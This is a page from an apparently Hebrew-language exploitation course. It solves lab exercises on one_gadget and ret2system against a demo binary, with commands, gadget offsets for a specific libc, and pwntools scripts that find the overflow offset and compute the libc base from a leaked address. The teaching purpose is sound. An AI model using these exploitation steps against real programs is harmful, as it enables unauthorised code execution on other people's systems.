

repository: AmitPinchasi/amittech · page: מחקר-חולשות/4 - עקיפת NX וROP בסיסי/4.5 - one_gadget וret2system/4.5 - one_gadget וret2system - פתרון/index.html · generator: mkdocs

## פתרון - one_gadget וret2system

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות ו-offset-ים בפלט מתייחסים ל-`libc-2.27.so` (Ubuntu 18.04) - אצלכם, עם גרסת libc אחרת, הם יהיו שונים. **תמיד תריצו one_gadget על ה-libc שלכם** ותשלפו את הכתובות מהבינארי שלכם, לעולם אל תעתיקו offset עיוור.

### פתרון תרגיל 1 - מיפוי

מוצאים את ה-libc שהבינארי טוען:

```bash
$ ldd ./og_demo
    linux-vdso.so.1 (0x00007fff...)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f...)
```

מעתיקים אותו לתיקיית העבודה כדי לעבוד מולו, ומריצים one_gadget:

```bash
$ cp /lib/x86_64-linux-gnu/libc.so.6 .
$ one_gadget ./libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

ניתוח האילוצים:

- `0x4f2c5` דורש `rcx == NULL` - **אילוץ על אוגר**. קשה לספק, כי `rcx` תלוי במה שקרה קודם.
- `0x4f322` דורש `[rsp+0x40] == NULL` - **אילוץ על המחסנית**. קל לספק, כי אנחנו כותבים את המחסנית.
- `0x10a38c` דורש `[rsp+0x70] == NULL` - גם על המחסנית, גם נוח.

המסקנה: נתחיל מ-`0x4f322` או `0x10a38c` כי אילוץ על המחסנית בשליטתנו.

מציאת ה-offset עם cyclic:

```python
from pwn import *
context.binary = ELF('./og_demo')
p = process('./og_demo')
p.recvline()                 # the leak line
p.recvuntil(b'payload:')
p.sendline(cyclic(200))
p.wait()
core = p.corefile
log.info('offset = %d', cyclic_find(core.read(core.rsp, 8)))
```

לbuffer 64 + saved rbp 8 יוצא **offset = 72**. תמיד תמדדו בעצמכם.

זיהוי גרסת libc:

```bash
$ strings ./libc.so.6 | grep "GNU C Library"
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.6) stable release version 2.27.
```

### פתרון תרגיל 2 - חישוב בסיס libc

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./og_demo')
libc = ELF('./libc.so.6')

p = process('./og_demo')

leak = int(p.recvline().split()[-1], 16)     # "puts @ 0x7f..."
libc.address = leak - libc.symbols['puts']
log.success('puts leak = %#x', leak)
log.success('libc base = %#x', libc.address)
```

פלט לדוגמה (משתנה בכל הרצה בגלל ASLR):

```text
[+] puts leak = 0x7f3a9c0a4aa0
[+] libc base = 0x7f3a9c020000
```

שימו לב ש-`libc base` תמיד נגמר ב-`000` - libc ממופה בגבול עמוד. אם קיבלתם בסיס שלא aligned לעמוד, סימן שהדלף שגוי או שהתאמתם ל-libc הלא נכון. אחרי `libc.address = ...`, כל קריאה כמו `libc.symbols['system']` כבר מחזירה את הכתובת האמיתית בריצה הזו.
